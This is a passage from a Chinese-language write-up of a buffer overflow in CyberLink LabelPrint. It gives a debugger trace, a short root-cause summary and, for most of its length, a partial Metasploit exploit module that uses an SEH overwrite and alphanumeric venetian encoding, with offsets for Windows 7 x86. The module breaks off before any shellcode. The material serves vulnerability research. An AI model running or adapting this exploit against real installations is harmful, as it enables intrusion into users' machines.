 ```
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\CyberLink\LabelPrint\MSVCR71.dll -
004657c2 ff150cf14800    call    dword ptr [LabelPrint+0x8f10c (0048f10c)] ds:0023:0048f10c={MSVCR71!wcscpy (7c370420)}
```  
  
拷贝的目标地址为0012e8a8。  
## 5、总结  
  
由于程序在调用vulfunc读取属性值的时候，没有计算属性值所占用的空间大小，最终在复制时导致溢出。  
  
```
```  
  
1、msf exploit源码  
  
源  
码如下：  
```
我的win7 x86环境下的参数
'Ret' => "\x2c\x44",
'Offset' => 790,
'Padding1' => 857,
'Padding2' => 104
 
def exploit
  nop = "\x42"
  junk = 'ABC'.split('').sample              #junk must specifically static (A, B, and C only)
  buffer = ""
  buffer << junk * target['Offset']
  buffer << "\x61\x42"       # nseh
  buffer << target['Ret']    # seh
 
  #we need to encode the RET address, since RET (\xc3) is known as bad char.
  #preparing address to land the decoded RET
  buffer << nop              #nop/inc edx
  buffer << "\x54"           #push esp
  buffer << nop              #nop/inc edx
  buffer << "\x58"           #pop eax
  buffer << nop              #nop/inc edx
  buffer << "\x05\x1B\x01"   #add eax 01001B00
  buffer << nop              #nop/inc edx
  buffer << "\x2d\x01\x01"   #sub eax 01001000
  buffer << nop              #nop/inc edx
  buffer << "\x50"           #push eax
  buffer << nop              #nop/inc edx
  buffer << "\x5c"           #pop esp
 
  #preparing RET opcode (c300c300)
  buffer << nop              #nop/inc edx
  buffer << "\x25\x7e\x7e"   #and eax,7e007e00
  buffer << nop              #nop/inc edx
  buffer << "\x25\x01\x01"   #and eax,01000100
  buffer << nop              #nop/inc edx
  buffer << "\x35\x7f\x7f"   #xor eax,7f007f00
  buffer << nop              #nop/inc edx
  buffer << "\x05\x44\x44"   #add eax,44004400
  buffer << nop              #nop/inc edx
  buffer << "\x57"           #push edi as padding, needed to align stack
  buffer << nop              #nop/inc edx
  buffer << "\x50"           #push eax
  buffer << junk * target['Padding1'] #OS specific
 
  #custom venetian to reach shellcode
  buffer << "\x58"           #pop eax
```
